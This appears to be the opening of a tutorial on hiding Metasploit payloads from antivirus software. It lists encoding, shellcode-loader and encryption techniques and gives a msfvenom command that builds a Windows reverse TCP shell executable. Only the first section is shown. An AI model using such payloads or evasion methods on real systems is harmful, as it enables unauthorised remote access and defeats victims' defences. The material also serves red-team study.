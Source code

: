 ### Making MSF payload almost invisible and bypassing most AVs

## Contents
- Introduction 

- Ways to obfuscate msf payloads
    - Basic msf payload
    - Using xor and shikata_ga_nai
    - Using shellcode with C shellcode loader
    - Using encryption (Alaris)
    
## Introduction 

Avs have significantly improved in recent years it still relies on age-old AV techniques that are often trivial to bypass. In this post we’ll analyse some basic pool of techniques which can be used to protect a basic msf payload to bypass most modern Avs. 

## Ways to hide msf payloads
In the following we will explore ways to encode/obfuscate msf payload and will have a goal to finally reach a point where we are satisfied with our results.

### Basic msf payload
Lets see how our basic msf payload stand againt Virustotal.

- Build command
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -f exe -o shivang_shell.ex
```

- Result

![Alt Text](https://i.ibb.co/rQrdx2j/basic-msf.png)
